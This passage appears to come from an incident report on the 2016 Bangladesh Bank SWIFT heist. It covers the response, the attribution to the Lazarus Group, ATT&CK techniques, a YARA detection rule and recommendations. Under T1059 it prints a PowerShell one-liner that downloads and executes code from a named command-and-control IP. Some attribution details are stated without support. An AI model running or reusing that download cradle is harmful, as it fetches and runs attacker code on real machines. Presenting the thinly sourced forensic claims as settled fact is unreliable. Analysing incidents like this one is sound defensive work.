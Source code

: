 - February 6, 2016: Manual SWIFT log review revealed discrepancies.

### <a name="response-actions"></a>9.2 Response Actions

1. Notified FRBNY.
2. Recovered $20 million from Sri Lanka.
3. $81 million lost to casino laundering.

## <a name="attribution-to-lazarus-group"></a>10.0 Attribution to Lazarus Group

### <a name="key-evidence-of-lazarus-group-involvement"></a>10.1 Key Evidence of Lazarus Group Involvement

- **Code Reuse:** Shared C2 (`185.61.137.36`), RSA flaws, and strings from Sony Pictures (2014) and WannaCry (2017).
- **Infrastructure:** Domains followed Lazarus patterns; IPs traced to North Korea.
- **Techniques:** Custom binaries (UPX), time-delay tactics, and patched `liboradb.dll`.
- **Nation-State Link:** SWIFT Institute cites NSA’s Rick Ledgett: North Korea’s RGB used this to supplement foreign currency, targeting weaker banks like Bangladesh.
- **2025 Update:** Lazarus’s FASTCash ATM attacks show evolved financial focus.

### <a name="mitre-att&ck-techniques"></a>10.2 MITRE ATT&CK Techniques

- **T1059:** PowerShell (`IEX (New-Object Net.WebClient).DownloadString('<http://185.61.137.36>')`).
- **T1134:** Token impersonation.
- **T1027:** XOR-obfuscated payloads.
- **T1071:** HTTPS C2 with self-signed certs.
- **YARA Rule:**
    
    ```
    rule Lazarus_Bangladesh_Malware {
        strings:
            $s1 = "evtdiag.dll" ascii
            $s2 = "SWIFT" ascii
            $s3 = "liboradb.dll" ascii
        condition:
            uint16(0) == 0x5A4D and all of them
    }
    ```
    
## <a name="lessons-learned-and-recommendations"></a>11.0 Lessons Learned and Recommendations

### <a name="identified-vulnerabilities"></a>11.1 Identified Vulnerabilities

- **Email Security:** No DMARC or sandboxing.
- **Segmentation:** Flat network; Windows XP lacked whitelisting.
- **Monitoring:** No real-time anomaly detection.
